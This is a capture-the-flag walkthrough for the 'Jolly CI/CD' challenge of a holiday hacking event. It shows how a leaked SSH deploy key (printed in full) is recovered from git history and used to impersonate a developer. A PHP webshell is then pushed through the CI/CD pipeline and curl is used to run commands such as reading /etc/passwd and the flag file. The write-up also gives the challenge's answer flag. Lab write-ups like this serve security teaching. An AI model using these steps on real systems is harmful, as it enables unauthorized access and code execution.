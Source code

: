 # Jolly CI/CD
**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:
**Direct link**: [cicd terminal](https://hhc22-cicd.kringlecon.com/?&challenge=cicd&id=1a9f996e-1860-4c36-be8f-43e4fd87924d)


## Objective

!!! question "Request"
    Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

??? quote "Rippin Proudboot"
    Yes, hello, I'm Rippin Proudboot. Can I help you?<br/>
    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall see.<br/>
    The elves here introduced me to this new CI/CD technology. It seems quite efficient.<br/>
    Unfortunately, the sporcs seem to have gotten their grubby mits on it as well, along with the Elfen Ring.<br/>
    They've used CI/CD to launch a website, and the Elfen Ring to power it.<br/>
    Might you be able to check for any misconfigurations or vulnerabilities in their CI/CD pipeline?<br/>
    If you do find anything, use it to exploit the website, and get the ring back!


## Hints

??? hint "Switching Hats"
    If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

??? hint "Commiting to Mistakes"
    The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.


## Solution

??? abstract "Welcome message"
    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep the
    website up. And there is only a certain type of Christmas Magic capable of
    powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right now.

    Please, for the sake of our Holiday help us recover the Ring and save Christmas!

Start by cloning the repository mentioned by [Tinsel Upatree](o6.md) and look at the Git logs using `git log`. One of the commit messages says `whoops` and so that (or the previous commit) could be interesting to look at.

```
commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

`git show abdea0ebb21b156c01f7533cea3b895c26198c98` shows that a private SSH key `/.ssh/.deploy` was inadvertedly added to the repository.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

It also contains information about the associated public key at `/.ssh/.deploy.pub` which tells us the associated user is `sporx@kringlecon.com`. Both files are removed again in the following `e19f653bde9ea3de6af21a587e41e7a909db1ca5` commit with the `whoops` commit message.

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

Now that we have the SSH key for `sporx@kringlecon.com` we can clone the repository again using the Git protocol (instead of HTTP), using `git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git`. This now allows us to commit files to the repository as well (i.e., make the CI/CD pipeline publish our files). First set up the proper Git email and username configuration values. And store the private key in `~/.ssh/id_rsa` (remember to give both the `.ssh` folder and `id_rsa` restricted permissions).

```shell
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
```

We can add a [simple PHP webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) as a test.

```shell
cd wordpress.flag.net.internal
mkdir crahan
cd crahan
nano shell.php
cd ..
git add crahan
git commit -m 'adding a shell'
git push origin main
```

Now test the shell using something like `curl http://wordpress.flag.net.internal/crahan/shell.php?cmd=cat%20/etc/passwd` which executed `cat /etc/passwd` on the host. Roaming around we can find a `flag.txt` file in `/`. Using `curl http://wordpress.flag.net.internal/crahan/shell.php?cmd=cat%20/flag.txt` tells us the flag value is `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

!!! done "Answer"
    `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

## Response

!!! quote "Rippin Proudboot"
    How unexpected, you were actually able to help!<br/>
    Well, then I must apoligize for my dubious greeting.<br/>
    Us Flobbits can't help it sometimes, it's just in our nature.<br/>
    Right then, there are other Flobbits that need assistance further into the burrows.<br/>
    Thank you, and off you go.
